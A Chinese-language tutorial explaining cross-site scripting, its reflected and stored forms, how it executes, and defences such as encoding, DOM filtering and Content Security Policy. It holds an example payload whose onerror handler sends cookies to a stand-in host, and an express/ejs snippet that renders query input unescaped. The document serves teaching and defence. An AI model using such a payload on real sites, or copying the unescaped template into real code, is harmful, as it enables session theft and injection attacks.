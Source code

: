 #### 1.什么是xss

xss就是跨站脚本攻击cross site scripting。为了不和层叠样式表css名称一样。缩写叫做xss。
恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的

#### 2.xss攻击的场景

1.反射型攻击

这类攻击方式主要借助URL来实施。URL的构成分为协议、域名、端口、路径、查询几部分构成。
XSS往往在“查询”部分发现漏洞构造攻击代码实施攻击，所谓“反射”可以理解为hacker并不会直接攻击客户，而是通过URL植入，用户点击url访问到服务器的数据，获得查询的html，植入到用户页面完成攻击。

https://www.toutiao.com/search?item=热点新闻
协议     域名             路径    查询

2.存储类攻击

存储型攻击方式和反射型最大的区别就是不通过URL来传播，而是利用站点本身合法的存储结构，比如评论。任何用户都可以通过站点提供的接口提交评论内容，这些评论内容都被存储到服务器的数据库。当用户访问这些评论的时候，服务器从数据库提取内容插入到页面反馈给用户。如果评论内容本身是具备攻击性内容，用户无一幸免。

#### 3.xss的工作原理

反射型和存储型xss的工作原理：
1.构造攻击代码
2.服务端提取js代码，当成文本处理，这些文本在服务器被整合到HTML文档中
3.浏览器解析，XSS执行

例子：

```
//反射型xss攻击
https://www.toutiao.com/search?item=<img onerror="new Image().src='//hack.com?c=' src='null'>"
服务端提取并写入HTML
我们以 Node.js 应用型框架express.js为例：
服务端代码(express.js)
router.get('/', function (req, res, next) {
    res.render('index', {
        title: 'Express',
        search: req.query.item
    });
});
//直接渲染到了html，这段代码的含义是告诉浏览器加载一张图片，图片的地址是空，根据加载机制空图片的加载会触发Element的onerror事件，这段代码的onerror事件是将本地cookie传到指定的网站。
ejs模板
<p>
    <%- search %>
</p>
这里列举了以反射型为主的服务端代码，通过获取URL的查询res.query.item,最后在模板中输出内容。对于存储型的区别是通过数据库拿到对应内容，模板部分一致。
```

#### 4.xss防范措施

1.编码和DOM Parse和过滤

对于反射型的代码，服务端代码要对查询进行编码，主要目的就是将查询文本化，避免在浏览器解析阶段转换成DOM和CSS规则及JavaScript解析。
从XSS工作的原理可知，在服务端进行编码，在模板解码这个过程对于富文本的内容来说，完全可以被浏览器解析到并执行，进而给了XSS执行的可乘之机。
为了杜绝悲剧发生，我们需要在浏览器解析之后进行解码，得到的文本进行DOM parse拿到DOM Tree，对所有的不安全因素进行过滤，最后将内容交给浏览器，达到避免XSS感染的效果。

2.规范的方法，比如加入doctype html等

3.使用csp(Content Security Policy )

内容安全策略 (CSP, Content Security Policy) 是一个附加的安全层，通过配置HTTP返回包header头Content-Security-Policy来实现。用于帮助检测和缓解某些类型的攻击，包括跨站脚本 (XSS) 和数据注入等攻击。

<meta http-equiv="Content-Security-Policy" content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">

示例：
Content-Security-Policy: default-src * data: blob: 'unsafe-inline' 'unsafe-eval'; script-src 'self' blob: data: 'unsafe-inline' 'unsafe-eval' cdn.bootcss.com g.alicdn.com code.highcharts.com *.pstatp.com unpkg.com cdnjs.cloudflare.com ajax.googleapis.com *.snssdk.com; report-uri https://allsec.byted.org/csp/report

如果攻击者插入<script src='http://xxxx.com/x.js'></script>（或者以其他形式，插入了javascript文件）
导入了非白名单的远端javascript文件，浏览器就会给就会https://allsec.byted.org/csp/report发送一个http请求用作告警。
